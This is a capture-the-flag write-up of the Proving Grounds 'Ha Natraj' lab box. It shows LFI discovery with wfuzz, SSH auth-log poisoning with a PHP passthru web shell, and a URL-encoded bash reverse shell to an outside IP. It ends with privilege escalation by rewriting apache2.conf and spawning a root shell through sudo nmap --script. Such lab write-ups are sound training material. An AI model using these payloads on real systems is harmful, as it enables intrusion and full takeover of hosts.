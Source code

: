 ```yaml
---
layout: default
title: Ha Natraj
parent: Proving Grounds - Linux
nav_order: 3
---
```


# Ha Natraj

---

## Discovered Ports for Enumeration

- _22_ - SSH
- _80_ - http

## Users and Credentials

- _Users_: natraj, mahakal
- _Credentials_:

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.202.80
```

# Enumeration

---

## 80 - HTTP

### Wfuzz

Returns the directory _/console_

![wfuzz](../../../assets/images/ctfs/proving_grounds/ha_natraj/wfuzz.png)

_/console_ contains _file.php_ which is empty

Use wfuzz to fuzz a parameter and test for LFI.

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 "http://192.168.202.80/console/file.php?FUZZ=../../../../../../../etc/passwd"
```

![fuzz_lfi](../../../assets/images/ctfs/proving_grounds/ha_natraj/fuzz_lfi.png)

This reveals the parameter _file_.

Confirm LFI vulnerability by displaying _/etc/passwd_

![etc_passwd](../../../assets/images/ctfs/proving_grounds/ha_natraj/etc_passwd.png)

Users: natraj and mahakal
{: .warn }

# Exploitation

---

## SSH Auth Log Poisoning

Check if _/var/log/auth.log_ is visible.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log
```

![ssh_log](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_log.png)

Process for testing SSH auth log poisoning and RCE:

1. Netcat verbose to the target on port 22
2. Send malicious php code
3. Verify SSH auth log poisoning successful
4. Execute RCE with PHP cmd shell via poisoned log

Send PHP cmd shell through SSH via Netcat.

```bash
# netcat verbose to target on port 22
nc -nv 192.168.202.80 22

# send malicious php code
pwn_code/<?php passthru($_GET['cmd']); ?>
```

Verify SSH auth log is poisoned.

![ssh_poison](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_poison.png)

Execute RCE with PHP cmd shell via poisoned log.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=id
```

![cmd_rce](../../../assets/images/ctfs/proving_grounds/ha_natraj/cmd_rce.png)

Get reverse shell with URL encoded bash one-liner

```bash
URL: 192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

![rev_shell](../../../assets/images/ctfs/proving_grounds/ha_natraj/rev_shell.png)

# Post-Exploitation

---

## Upgrade to TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

## Check SUDO Permissions

```bash
sudo -l
```

![sudo_l](../../../assets/images/ctfs/proving_grounds/ha_natraj/sudo_l.png)

We can exploit this to change the apache2.conf file to run as user 'mahakal' instead of 'www-data'.

If we restart Apache after doing this we will lose our shell, but when we regain our reverse shell connection we will be logged on as 'mahakal' instead of 'www-data'

```bash
# make a copy of apache2.conf and place in /var/tmp
cd /var/tmp
cp /etc/apache2/apache2.conf .

# Use sed to find the 'user' environment variable and replace with 'mahakal'
sed -i 's/User ${APACHE_RUN_USER}/User mahakal/g' apache2.conf

# Use sed to find the 'group' environment variable and replace with 'mahakal'
sed -i 's/Group ${APACHE_RUN_GROUP}/Group mahakal/g' apache2.conf

# Replace apache2.conf with the newly edited version
cp apache2.conf /etc/apache2/apache2.conf
```

Restart the Apache2 service.

```bash
sudo /bin/systemctl restart apache2
```

Regain our shell...

```bash
http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261%22
```

## Check Sudo Permissions for 'mahakal'

We are now logged on as _mahakal_ and can check this account's sudo permissions.

![mahakal_sudo](../../../assets/images/ctfs/proving_grounds/ha_natraj/mahakal_sudo.png)

If we create a binary in _/dev/shm_ and execute this with _nmap_ and the _--script_ flag will will have a root shell.

```bash
cd /dev/shm
echo 'os.execute("/bin/bash")' > rootshell
sudo /usr/bin/nmap --script=rootshell
```

![root](../../../assets/images/ctfs/proving_grounds/ha_natraj/root.png)
